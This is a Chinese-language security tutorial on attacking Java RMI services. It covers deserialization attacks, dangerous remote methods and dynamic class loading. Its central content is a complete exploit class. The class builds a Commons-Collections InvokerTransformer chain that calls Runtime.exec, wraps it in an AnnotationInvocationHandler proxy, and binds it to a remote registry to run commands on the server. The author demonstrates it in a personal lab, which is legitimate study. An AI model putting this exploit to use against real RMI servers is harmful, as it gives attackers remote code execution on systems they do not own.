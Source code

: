 ### 0x01 前言

上一章介绍了rmi的基本概念，以及浅显的提了一下rmi的利用点。这一章将结合具体的代码与实践来讲解攻击rmi的方式。

### 0x02 利用反序列化攻击RMI

这也是我们在上文中提到的攻击方式，这个攻击有两个前提：

1. rmi服务端提供了接收Object类型参数的远程方法
2. rmi服务器的lib或着说classpath中有存在pop利用链的jar包，例如3.1版本的commons-collections.jar

我们直接来看一个案例(RMI server还是用的上一章的那个demo)：

Server端：

```java
package server;

import model.Hello;
import model.impl.Helloimpl;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server {
    public static void main(String[] args) throws RemoteException{
        // 创建对象
        Hello hello = new Helloimpl();
        // 创建注册表
        Registry registry = LocateRegistry.createRegistry(1099);
        // 绑定对象到注册表，并给他取名为hello
        registry.rebind("hello", hello);
    }
}
```

现在，我们需要构造一个恶意的客户端，向服务端发送一个恶意的序列化对象，如下：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;

public class RMIExploit {

    public static void main(String[] args) throws Exception {

        // 远程RMI Server的地址
        String ip = "192.168.201.24";
        int port = 1099;
        // 要执行的命令
        String command = "gnome-calculator";

        final String ANN_INV_HANDLER_CLASS = "sun.reflect.annotation.AnnotationInvocationHandler";

        // real chain for after setup
        final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[] {String.class, Class[].class },
                        new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke",
                        new Class[] {Object.class, Object[].class },
                        new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class },
                        new Object[] { command }),
                new ConstantTransformer(1) };

        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Field valfield = badAttributeValueExpException.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(badAttributeValueExpException, entry);
        // 上面都是我们接触过得代码，正常的payload生成，下面的就是把它包装一下，让它可以在rmi中使用

        // 为了能够封装到AnnotationInvocationHandler中，需要把badAttributeValueExpException先放到一个map结构中
        String name = "axin";
        Map<String, Object> map = new HashMap<String, Object>();
        map.put(name, badAttributeValueExpException);
        // 获得AnnotationInvocationHandler的构造函数
        Constructor cl = Class.forName(ANN_INV_HANDLER_CLASS).getDeclaredConstructors()[0];
        cl.setAccessible(true);
        // 实例化一个Remote.class的代理
        InvocationHandler hl = (InvocationHandler)cl.newInstance(Override.class, map);
        Object object = Proxy.newProxyInstance(Remote.class.getClassLoader(), new Class[]{Remote.class}, hl);
        Remote remote = Remote.class.cast(object);
        Registry registry=LocateRegistry.getRegistry(ip,port);
        registry.bind(name, remote);
    }
}
```

注释中已经解释了代码的用途，但是最后一点代码还是要着重说一下，因为bind(name,remote)中的remote对象必须要实现Remote接口，但是我们的badAttributeValueExpException是没有实现这个接口的，所以，这里利用了很巧妙的一个技巧，那就是利用动态代理，代理了Remote.class，且把这个类的handler设置为封装了我们的badAttributeValueExpException对象的AnnotationInvocationHandler，这里不一定是用AnnotationInvocationHandler封装，换成其他的handler也是可以的，这样就可以把我们的恶意序列化对象发到服务端了。

ps: 虽然我们的对象被封装到了handler中，但是java在反序列化时是会层层进行的，所以，不用担心我们的对象不被反序列化。

有些文章提到不能直接bind恶意对象到registry,只能本地进行bind、rebind、unbind等方法，但是经过我的测试，是可以的。实验结果如下：

服务端（我的物理机）：

![](attack_rmi/server.png)

攻击者（我的虚拟机）：

![](attack_rmi/client.png)


其实这种攻击方式还是攻击的registry(应该是吧)，如果registry与远程对象提供服务器不在同一主机上，那么就要注意我们攻击的是registry而不是远程对象提供服务器，但是一般Registry与远程对象提供服务器都是同一主机。

如果是不在同一主机，又想攻击远程对象提供服务器，那么就不能用上述调用bind方法的方式，而是需要满足一开始提到的那两个条件，并根据真实情况另外编写exp。


### 0x03 直接调用危险的远程方法

如同标题说的那样，如果Server端注册了一个对象到Registry,且这个对象中有某个方法可以进行某些危险操作，例如：写文件，执行命令等，那么我们就可以直接写一个Client端，然后调用这个危险的方法就可以完成攻击了。对于这个攻击方式，有一个挺好的工具：https://github.com/NickstaDB/BaRMIe

这个工具的原理应该就是利用list()方法，列出远程所有注册的远程对象，从而探测危险的对象～（猜的^^)

###  0x04 rmi动态类加载

RMI核心特点之一就是动态类加载，如果当前JVM中没有某个类的定义，它可以从远程URL去下载这个类的class，动态加载的对象class文件可以使用Web服务的方式进行托管。这可以动态的扩展远程应用的功能，RMI注册表上可以动态的加载绑定多个RMI应用。对于客户端而言，服务端返回值也可能是一些子类的对象实例，而客户端并没有这些子类的class文件，如果需要客户端正确调用这些子类中被重写的方法，则同样需要有运行时动态加载额外类的能力。客户端使用了与RMI注册表相同的机制。RMI服务端将URL传递给客户端，客户端通过HTTP请求下载这些类。 


所以，如果我们可以控制客户端从哪里加载类，那么就能够让客户端加载恶意类，完成攻击的目的。